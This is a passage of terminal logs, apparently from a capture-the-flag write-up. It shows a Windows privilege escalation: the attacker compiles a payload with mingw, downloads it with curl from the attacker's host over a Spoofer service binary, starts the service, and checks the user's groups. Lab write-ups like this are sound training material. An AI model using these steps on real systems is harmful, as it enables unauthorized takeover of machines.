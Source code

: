 
```bash
root@ip-10-10-104-24:~# nano payload.c
root@ip-10-10-104-24:~# locate x86_64-w64-mingw32-gcc-win32
/usr/bin/x86_64-w64-mingw32-gcc-win32
root@ip-10-10-104-24:~# cp /usr/bin/x86_64-w64-mingw32-gcc-win32 x86_64-w64-mingw32-gcc-win32
root@ip-10-10-104-24:~#


x86_64-w64-mingw32-gcc-win32 payload.c -o payload.exe



```

```bash
tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>move spoofer-scheduler.exe spoofer-scheduler.exe.bak
        1 file(s) moved.

tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>curl http://10.10.104.24:8000/payload.exe -o spoofer-scheduler.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  309k  100  309k    0     0   309k      0  0:00:01 --:--:--  0:00:01 9669k

tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>sc start spoofer-scheduler
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.


tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>
```

```bash
tyler@HACKSMARTERSEC C:\Users\tyler>whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```
